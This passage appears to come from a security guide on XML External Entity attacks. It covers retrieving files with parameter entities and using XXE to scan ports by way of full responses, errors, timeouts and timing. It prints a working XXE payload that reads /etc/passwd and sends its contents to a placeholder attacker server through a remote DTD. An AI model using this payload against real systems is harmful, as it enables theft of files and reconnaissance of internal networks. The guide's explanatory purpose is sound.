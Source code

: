 ##### File Retrieval with Parameter Entities

Parameter entities allows for the retrieval of content using URL references. Consider the following malicious XML document:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://attacker/evil.dtd">
 %dtd;
]>
<root>&send;</root>
```

Here the [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) defines two external parameter entities: `file` loads a local file, and `dtd` which loads a remote [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). The remote [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) should contain something like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>">
%all;
```

The second [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) causes the system to send the contents of the `file` back to the attacker's server as a parameter of the URL.

##### Port Scanning

The amount and type of information generated by port scanning will depend on the type of implementation. Responses can be classified as follows, ranking from easy to complex:

**1) Complete Disclosure**: This is the simplest and most unusual scenario, with complete disclosure you can clearly see what's going on by receiving the complete responses from the server being queried. You have an exact representation of what happened when connecting to the remote host.

**2) Error-based**: If you are unable to see the response from the remote server, you may be able to use the information generated by the error response. Consider a web service leaking details on what went wrong in the SOAP Fault element when trying to establish a connection:

```text
java.io.IOException: Server returned HTTP response code: 401 for URL: http://192.168.1.1:80
 at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1459)
 at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:674)
```

**3) Timeout-based**: The scanner could generate timeouts when it connects to open or closed ports depending on the schema and the underlying implementation. If the timeouts occur while you are trying to connect to a closed port (which may take one minute), the time of response when connected to a valid port will be very quick (one second, for example). The differences between open and closed ports becomes quite clear.

**4) Time-based**: Sometimes it may be difficult to tell the differences between closed and open ports because the results are very subtle. The only way to know the status of a port with certainty would be to take multiple measurements of the time required to reach each host, then you should analyze the average time for each port to determinate the status of each port. This type of attack will be difficult to accomplish if it is performed in higher latency networks.
